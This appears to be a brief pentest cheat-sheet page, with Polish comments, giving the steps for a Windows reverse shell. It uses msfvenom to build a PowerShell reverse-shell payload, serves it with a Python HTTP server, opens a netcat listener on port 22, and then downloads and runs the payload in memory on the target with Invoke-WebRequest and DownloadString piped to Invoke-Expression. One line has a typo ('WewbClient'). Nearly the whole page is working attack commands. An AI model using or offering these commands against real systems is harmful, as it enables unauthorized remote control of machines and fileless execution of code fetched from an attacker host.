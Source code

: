 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Rs

**kali**

```python
#tworzymy payloada
msfvenom -p windows/x64/shell_reverse_tcp -f psh LPORT=22 LHOST=10.20.10.31 > rs.ps1

#wystawiamy payload będąc w katalogu gdzie jest stworzony plik z payloadem
python -m http.server 8081

#ustawiamy listenera
nc -nlvp 22
```

**Win**

{% code fullWidth="true" %}
```python
#kopiujemy payload
Invoke-WebRequest -uri http://10.20.10.31:8081/rs.ps1 -OutFile rs.ps1

#kopiujemy skrypt do RAM
(New-Object System.Net.WewbClient).DownloadString('http://10.20.10.31:8081/rs.ps1') | Invoke-Expression
```
{% endcode %}
